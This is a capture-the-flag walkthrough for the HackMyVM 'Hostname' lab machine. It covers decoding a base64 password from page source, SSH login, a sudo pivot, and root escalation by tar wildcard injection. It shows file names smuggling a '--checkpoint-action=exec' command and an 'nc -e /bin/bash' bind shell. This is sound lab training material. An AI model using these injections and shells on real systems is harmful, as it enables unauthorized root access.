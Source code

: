 ```yaml
---
title: "Hostname - Avijneyam"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Hostname
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Hostname - Avijneyam
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|Hostname|
|Author:|[avijneyam](https://hackmyvm.eu/profile/?user=avijneyam)|
|Release date:|2022-05-04|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Hostname)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|Web-tools|

# 01. Entry
In the source code, you will find this:
{: .text-justify}
<code>
<script crossorigin="<span style="background-color: yellow;">S3VuZ19GdV9QNG5kYQ==</span>" src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
</code>

Decode it:
{: .text-justify}
```bash
echo -n 'S3VuZ19GdV9QNG5kYQ==' | base64 -d  #Secret Word
```
Use the **HackBar v2** plugin for Firefox and You got a password for SSH.
{: .text-justify}
![HackBar v2](/assets/images/hacking/2024/02/01.png)
# 02. SSH
Log in to the console as user **po**.
{: .text-justify}
```bash
export IP=172.16.1.240
ssh po@$IP 
```
## 02a. User oogway
```bash
cat /etc/sudoers.d/po
```
```bash
# po HackMyVM = (oogway) NOPASSWD: /bin/bash
```
```bash
sudo -u oogway -h HackMyVM bash
```
```bash
cat /etc/crontab
```
![crontab](/assets/images/hacking/2024/02/02.png)
# 02b. user root
```bash
cd /opt/secret/
touch -- --checkpoint=1
touch -- "--checkpoint-action=exec=sh exploit"
echo "nc -e /bin/bash -lvp 1234" > exploit
```
Wait a minute.
{: .text-justify}
```bash
nc localhost 1234
```
